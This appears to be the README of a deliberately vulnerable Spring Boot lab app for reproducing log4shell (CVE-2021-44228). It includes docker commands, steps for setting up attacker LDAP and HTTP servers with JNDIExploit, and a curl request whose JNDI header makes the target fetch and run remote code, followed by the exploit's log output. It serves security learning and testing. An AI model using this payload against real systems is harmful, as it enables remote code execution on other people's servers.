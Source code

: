 # Vulnerable application

This repository contains a Spring Boot web application vulnerable to `CVE-2021-44228`, known as [log4shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses 
* `log-4j-core:2.14.1` (through `spring-boot-starter-log4j2`) and
* `openjdk:8u181`

## Running the application

Run it:

```bash
docker run --name vulnerable-app --rm -p 8080:8080 romanutti/log4shell-vulnerable-app
```

Or alternatively, build it yourself:

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
```

## Exploitation steps

Using the following steps you can reproduce a log4shell exploit. 
If you are not familiar with how the attack works under the hood check out this [snyk learn lesson](https://learn.snyk.io/lessons/log4shell/java/).

*Note: This is highly inspired from the original [lunasec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). Run at your own risk, preferably in a sandbox environment.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). I therefore recommend you to used the saved version from this repository.*

### Setup attacker servers
First we have to setup the attacker servers. This consist of
* a **LDAP server** that will redirect us to our malicious HTTP server
* a **HTTP server** that will run the exploit

We use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up the attacker servers.

```bash
git clone https://github.com/romanutti/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app/src/main/resources
unzip unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

### Triggering the exploit
As payload we want to execute `touch /tmp/pwned` (which is corresponds to the base64-encoded `dG91Y2ggL3RtcC9wd25lZAo=`) on the vulnerable applications server.

Trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl localhost:8080 -H 'user: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

The output of JNDIExploit shows that the attacker servers responded with tha malicious exploit and executed the payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp

...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/  
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/  
https://github.com/christophetd/log4shell-vulnerable-app/
